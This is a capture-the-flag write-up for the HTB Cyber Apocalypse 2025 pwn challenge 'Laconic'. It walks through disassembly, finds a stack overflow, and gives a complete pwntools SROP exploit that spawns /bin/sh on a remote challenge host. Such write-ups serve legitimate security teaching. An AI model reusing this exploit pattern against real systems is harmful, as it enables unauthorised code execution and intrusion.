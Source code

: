```yaml
---
title: Laconic
date: 2025-03-29T18:36:19+02:00
description: Writeup for Laconic [HTB Cyber Apocalypse CTF 2025]
author: sunbather
tags:
- pwn
- srop
draft: false
---
```

___

## Challenge Description

Sir Alaric's struggles have plunged him into a deep and overwhelming sadness, leaving him unwilling to speak to anyone. Can you find a way to lift his spirits and bring back his courage?

## Intuition

Super small binary, written directly in assembly. Here is the disassembly:

```
$ objdump -d laconic -M intel

laconic:     file format elf64-x86-64


Disassembly of section .shellcode:

0000000000043000 <__start>:
   43000:	48 c7 c7 00 00 00 00 	mov    rdi,0x0
   43007:	48 89 e6             	mov    rsi,rsp
   4300a:	48 83 ee 08          	sub    rsi,0x8
   4300e:	48 c7 c2 06 01 00 00 	mov    rdx,0x106
   43015:	0f 05                	syscall 
   43017:	c3                   	ret    
   43018:	58                   	pop    rax
   43019:	c3                   	ret    
```

The `syscall` instruction is executing a read (`rax = 0x0`, you can see it dynamically). Size of read is `0x106` and target is `rsp` according to `mov rsi,rsp`.

So obviously this is a buffer overflow as I can immediately write the return addresses. Size is huge `0x106` so we can perform SROP. Let's debug to find everything:

```
$ gdb laconic -q
pwndbg> start
[...]
pwndbg> search "/bin/sh"
Searching for value: '/bin/sh'
laconic         0x43238 0x68732f6e69622f /* '/bin/sh' */
```

Additionally we have the addresses for a few gadgetsa in the initial `objdump`:

- `pop rax` -- `0x43018`
- `syscall` -- `0x43015`

## Solution

Script is quite simple, just classic SROP.

```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"

#target = process("./laconic")
target = remote("83.136.251.145", 30750)

sh_addr = 0x43238
syscall_gadget = 0x43015
pop_rax = 0x43018

frame = SigreturnFrame()
frame.rax = 59 # syscall code for execve
frame.rdi = sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget

payload = b"a" * 8 + p64(pop_rax) + p64(15) + p64(syscall_gadget) + bytes(frame)

target.send(payload)
target.interactive()
```

### Flag

`HTB{s1l3nt_r0p_SOME_UNIQUE_ID}`
